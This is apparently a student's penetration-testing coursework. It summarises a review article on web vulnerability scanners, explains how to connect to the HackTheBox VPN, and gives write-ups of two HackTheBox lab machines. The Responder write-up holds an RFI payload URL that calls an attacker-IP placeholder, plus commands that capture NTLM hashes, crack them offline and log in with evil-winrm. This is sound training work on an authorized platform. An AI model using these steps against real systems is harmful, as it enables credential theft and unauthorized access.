# X) Summaries / Tiivistelmät

## Start Your Research with a Review Article

- A **review article** synthesizes existing research on a topic. It provides an overview of current knowledge, common research methods, open questions, and suggestions for future directions/research.
- Starting with a review article is the most efficient way to build a strong foundational understanding of a new topic/ field.
  
- **Guidelines for selecting articles/papers:**
	- Choose recent publications, preferably published within the last two years
	- Choose articles published in esteemed, peer-reviewed journals with a solid reputation, assessed through classification systems like the **JUFO rating** (levels 1–3) or the **Impact Factor (IF)**.
   
- **Tools for finding and assessing articles:**
	- **[Google Scholar](https://scholar.google.com/ncr)**: Search for articles by combining a topic with the word "review." To access more full-text articles for free, add your university in Settings → Library Links.
	- **[JUFO portal](https://jfp.csc.fi/jufoportal)**: A classification system for checking the quality/ reputation of publication channels. Journals rated JUFO 1, 2, or 3 are considered good-quality publications. 

## A Systematic Literature Review on the Characteristics and Effectiveness of Web Application Vulnerability Scanners 

JUFO Classification: Level 1 (Published in IEEE Access)

The summary is based on a surface-level review of the article rather than an in-depth study of its contents (Article length: 20 pages)

**Purpose and scope:**
- A systematic literature review of Web Application Vulnerability Scanners (WVSs), which are currently the primary tools used to detect vulnerabilities in web applications.
- Focus on:
	- Identifying the most researched/cited WVSs.
		- 30 scanners identified across 90 academic research papers.
	- Examining technical characteristics of these scanners.
	- Evaluating the effectiveness of these scanners in detecting common web vulnerabilities, especially those listed in the OWASP Top 10.

**Key findings:**
- Very few academic studies evaluate WVS features and detection capabilities in depth. Only 12 out of the 30 identified scanners were assessed for performance, and technical characteristics were often not included in academic sources.
- Most performance evaluations tested for only two OWASP Top 10 vulnerability types: SQL Injection (SQLi) and Cross-Site Scripting (XSS). Only one study evaluated a scanner against six OWASP vulnerability types.
- Reported vulnerability detection rates across WVSs varied significantly between studies:
	- SQLi: 0%–100%
	- XSS: 6%–100%

- The inconsistent results may be partially explained by the absence of standard benchmark web applications in evaluations. Most studies used non-standard applications, which makes replication difficult. Additionally, a lack of standardized terminology limits comparability.
- Due to large discrepancies in reported results, the WVSs cannot be reliably compared, and their effectiveness in detecting vulnerabilities remains questionable.
- As it stands in academic literature, no published evaluations exist that assess the usability or quality-of-use of WVSs.

**Recommendations for future research:**
- Developent of standard benchmark web applications to evaluate WVSs against all OWASP Top 10 vulnerabilities.
- Standardized evaluations using common vulnerability categories (e.g., OWASP) and consistent terminology/nomenclature.
- Inclusion of usability and quality-of-use assessments for WVS’s.

## References / Lähteet:
- Karvinen 2025: Start Your Research with a Review Article at https://terokarvinen.com/review-article/ 
- Alazmi, S. and De Leon, D.C., 2022. A systematic literature review on the characteristics and effectiveness of web application vulnerability scanners. IEEe Access, 10, pp.33200-33219.

# Establishing a VPN Connection to HackTheBox

**1. Download the OpenVPN configuration file from the HackTheBox website**

        

**2. Start the OpenVPN connection & wait for the initialization sequence to complete**

- `sudo openvpn ~/Downloads/starting_point_RH2025.ovpn`

**3. Verify VPN Connection**
- Check IP interfaces with `ifconfig` or `ip a`. A new interface `tun0` should be added.

	

- Ping the HTB VPN gateway to confirm connection to the vpn server
	- `ping 10.10.16.1`
	     

**4. Route/force all traffic through VPN only (pevent packet leaks)**

**Note:** These instructions for steps 4, 5, 7 were generated using ChatGPT 

- Add an iptables rule to block non-VPN traffic:
	- `sudo iptables -I OUTPUT ! -o tun0 -m conntrack --ctstate NEW -j DROP`
		- `-I OUTPUT` Inserts the rule into the OUTPUT chain, which controls outgoing traffic
		- `! -o tun0 `Applies/matches to traffic not going out through the `tun0` VPN interface.
		- `-m conntrack --ctstate NEW ` Matches new outbound connections (not ongoing/established ones)
		- `-j DROP` Drops/blocks any traffic that matches the above.
    
- This should ensure no traffic escapes outside the VPN tunnel.

**5. Confirm that all traffic is routed through the VPN (check for leaks)**

- Run ping tests - ping the internet and target network (HTB VPN Gateway):
	
    
	
 
	     

**6. Confirm connection to the target machine**

- Ping the IP of the spawned HTB machine before proceeding with the associated tasks: `ping {target_IP}`

	 
	
	     

**7. Optional: revert iptables rule (undo VPN traffic restriction)**

- By default, iptables rules are stored in memory and won’t persist over system reboots.
- Reference for manual removal of the rule:
	- `sudo iptables -D OUTPUT ! -o tun0 -m conntrack --ctstate NEW -j DROP`

## References / Lähteet:
- Gordon, J. (2025). Introduction to Starting Point | Hack The Box Help Center. Available at: https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point#h_519931c2d4
- OpenAI (2025) ChatGPT response to user prompt on how to route/force all traffic through a VPN tunnel only to prevent packet leaks.

# A) HTB Dancing. Ratkaise HackTheBox.com: Starting Point: Tier 0: Dancing.

**Note:** To comply with Hack The Box’s Terms of Service (TOS), this report does not include a detailed step-by-step walkthrough  of the solution.

**<ins>1. Overall Objective</ins>**

- Exploiting a network file-sharing service, SMB (Server Message Block), hosted on a Windows-based target system.
- Identifying publicly accessible SMB shares on the target that are misconfigured to allow access without valid authentication credentials and retrieving a “hidden” flag file. 

**<ins>2. Terminology</ins>**

- **SMB (Server Message Block)**
	- A network communication/file sharing protocol used to provide shared access to files, printers, and other resources across computers in a network. It allows computers to read, write, modify or remove files and supports file transfers.  
	- Operates over TCP/IP, typically using port 445.
	- Primarily used on Windows networks
   
- **smbclient**
	- A Linux command-line utility that acts as an SMB client. It allows connecting to SMB shares and provides an interactive shell for navigating share contents, listing directories and transferring files.
 	- SMB clients may be required to authenticate with a username and password, depending on the server's/share’s configuration. 
   
- **microsoft-ds**
	- Refers to Microsoft Directory Services. Identifies the service running SMB over TCP/IP on port 445.

**<ins>3. Required installations </ins>**

- **smbclient**:  `sudo apt-get install smbclient`

**<ins>4.Exploitation process</ins>**  

**A)  Reconnaissance and Enumeration**
- Identification of open ports and active services on the target with port scanning: 
	- `sudo nmap -T4 -sV {target_IP}`    
		- `nmap` Scans target host for open ports
		- `-sV` Detects service versions 
		- `-p-` Scans all 65,535 TCP ports, instead of the default top 1,000.
		- `-T4` Option to speed up scans while maintaining relatively good accuracy
	- Open port at 445/TCP running the microsoft-ds service indicates the presence of an SMB server
   
	

- Enumeration of available SMB shares on the target
	- `smbclient -L {target_IP}`  OR  `smbclient -L //{target_IP}`
 		- `-L` List available shares
 
- Since the server supports anonymous/guest login, these shares are visible without the need to provide valid credentials.

	

**B) Initial Access and Exploration**

- Connect to a share: `smbclient \\\\{target_IP}\\{share_name}`  OR `smbclient //{target_IP}/{share_name}
- One of the discovered shares allows anonymous/guest access (no credentials required to access or browse the contents of the share)
- An interactive shell is used to navigate the share’s directories and contents `smb: \>`.`help` Can be used to display commands available within the shell.

	     

**C) Data Extraction**
- The flag file, found within one of the share’s directories, can be retrieved using the file transfer command `get` in the SMB shell.
  
	

- The downloaded file’s contents can be read locally with `cat` to extract the flag

	   

**<ins>5. Completion of the Dancing machine</ins>**  

     

     

     

## References / Lähteet:
- Hack The Box (2025) Starting Point: Dancer & Official Write-up (PDF). Available at: https://app.hackthebox.com/starting-point
- Zero To Mastery. The Best Nmap Cheat Sheet. Available at: https://zerotomastery.io/cheatsheets/nmap-cheat-sheet/  
- Canonical (2019). Ubuntu Manpage: smbclient - ftp-like client to access SMB/CIFS resources on servers. [online] Ubuntu.com. Available at: https://manpages.ubuntu.com/manpages/trusty/man1/smbclient.1.html  
- Hack The Box. (2025). Website Terms. Available at: https://www.hackthebox.com/tos 
- Hack The box.com. (2025). Streaming / Writeups / Walkthrough Guidelines | Hack The Box Help Center.  Available at: https://help.hackthebox.com/en/articles/5188925-streaming-writeups-walkthrough-guidelines 

# B) HTB Responder. Ratkaise HackTheBox.com: Starting Point: Tier 1: Responder.

**<ins>1. Overall Objective</ins>**

- Exploiting a misconfigured web application that allows remote file inclusion (RFI).
- This vulnerability is used to capture NTLM authentication data from the target machine using a Responder -tool, which acts as a fake SMB server. The RFI attack initiates an SMB authentication to this fake server controlled by the attacker. 
- Once the NTLMv2 hash is captured, it’s cracked offline to retrieve plaintext credentials which are then used to gain remote access to the target system over WinRM.

**<ins>2. Terminology</ins>**

- **Responder**
	- A penetration testing tool that can mimic legitimate services to e.g. intercept authentication attempts and capture credentials over SMB, HTTP or other protocols. 
	- In this machine, Responder sets up a malicious SMB server to capture NTLMv2 hashes from the NTLM authentication process

- **LFI (Local File Inclusion)**
	- A web vulnerability where an input (e.g., a URL parameter value) can be manipulated to load and display arbitrary files from the local filesystem on the server in the response. This is typically due to improper sanitization of the parameter.

- **RFI (Remote File Inclusion)** 
	- A web vulnerability that allows a server to include a file hosted on an external server/source. If improperly configured, the web server may attempt to fetch remote files from attacker-controlled URLs.
	- In this machine, RFI is used to trigger an external SMB connection to the attacker's machine, where Responder captures the NTLMv2 hash.

- **NTLM (NT LAN Manager)**  
	- An authentication suite used in Windows environments. It uses a challenge-response mechanism to verify users/systems to avoid sending passwords in plaintext.
	- A NetNTLMv2 challenge-response is a string that includes both the challenge and the response to that challenge which is encrypted with the user’s password hash.
	- In this machine, the Responder is used to capture the NTLM hash when the target machine tries to authenticate to a fake SMB server run by the attacker.

- **WinRM (Windows Remote Management)**
	- A built-in remote management protocol used for remote administration/command execution on Windows systems. It runs over HTTP(S) and by default uses TCP port 5985.
	- In this machine, WinRM is to remotely access the compromised target machine using stolen credentials.

**<ins>3. Required installations </ins>**

- evil-winrm: `sudo apt-get install evil-winrm`

**<ins>4. Exploitation process</ins>**  
 
**A) Reconnaissance / Enumeration:**
- Identification of open ports and active services on the target with port scanning:  
	- `sudo nmap -p- -T4 -sV {target_IP}`
	- Port 5985 runs WinRM for remote management.
 
 	   

**B) Exploring File Inclusion Vulnerabilities:**
- The website URL includes a parameter vulnerable to file inclusion 
- Manipulating this vulnerable parameter allows:
	- **LFI**: Loading & reading arbitrary local files form the server
	- **RFI**: Making the web server attempt to load a file from a remote source (e.g. the attacker's machine). If the remote source acts as an SMB server, the web server will try to access the SMB resource through the NTLM authentication process, which can lead to NTLM authentication leakage

**C) Responder & NTLM Hash Capture**
- Note: If a firewall has been configured, all incoming traffic should be allowed on TCP port 445 for the Responder to catch the hash: `sudo ufw allow 445/tcp`
- To run the responder: `sudo responder -I tun0` or `sudo python3 /usr/share/responder/Responder.py – I tun0`
- To execute the RFI exploit: `http://{domain_name}/?{parameter_name} =//{attacker_IP}/somefile`
- With the Responder running and acting as a fake SMB server, the RFI triggers the target machine to authenticate to the attacker. This results in Responder capturing the NTLMv2 hash, including the username, domain, and challenge-response data. 

	   

**D) Password hash cracking:**
- With John the Ripper: `$HOME/john/run/john ntlm.hash`

	   

** E) WinRM Access:**
- With the recovered/stolen credentials, a session can be established on the target machine using `evil-winrm`
	- ` sudo evil-winrm -i {target_IP} -u {username} -p {password} `
	- `evil-winrm` tool to connect to Windows machines remotely using WinRM

- Subsequently, commands can be executed remotely on the compromised target and the flag can be retrieved. 

	

**<ins>5. Completion of the Responder machine</ins>**  

	   
	
	   
	
	   
	

## References / Lähteet:
- Hack The Box (2025) Starting Point: Responder & Official Write-up (PDF). Available at: https://app.hackthebox.com/starting-point
- Zero To Mastery. The Best Nmap Cheat Sheet. Available at: https://zerotomastery.io/cheatsheets/nmap-cheat-sheet/  
- Hobart, E. (2019). Using MultiRelay with Responder for Penetration Testing. Available at: https://www.sikich.com/insight/using-multirelay-with-responder-for-penetration-testing/ 
- Hacktricks. (2024). File Inclusion/Path traversal - HackTricks. Available at: https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=file%20inclusion#file-inclusion 
- Alvinashcraft et. al. (2023). Microsoft NTLM - Win32 apps. learn.microsoft.com. Available at: https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm 
- Kali Linux. (2025). evil-winrm | Kali Linux Tools. Available at: https://www.kali.org/tools/evil-winrm/. 
- Hacktricks. (2025). 5985,5986 - Pentesting WinRM - HackTricks. Available at: https://book.hacktricks.wiki/en/network-services-pentesting/5985-5986-pentesting-winrm.html 
- Hack The Box. (2025). Website Terms. Available at: https://www.hackthebox.com/tos 
- Hack The box.com. (2025). Streaming / Writeups / Walkthrough Guidelines | Hack The Box Help Center.  Available at: https://help.hackthebox.com/en/articles/5188925-streaming-writeups-walkthrough-guidelines 

# Tehtävänanto:
- Karvinen 2025 - Tunkeutumistestaus at https://terokarvinen.com/tunkeutumistestaus/#h5-kohti-omaa-treenia

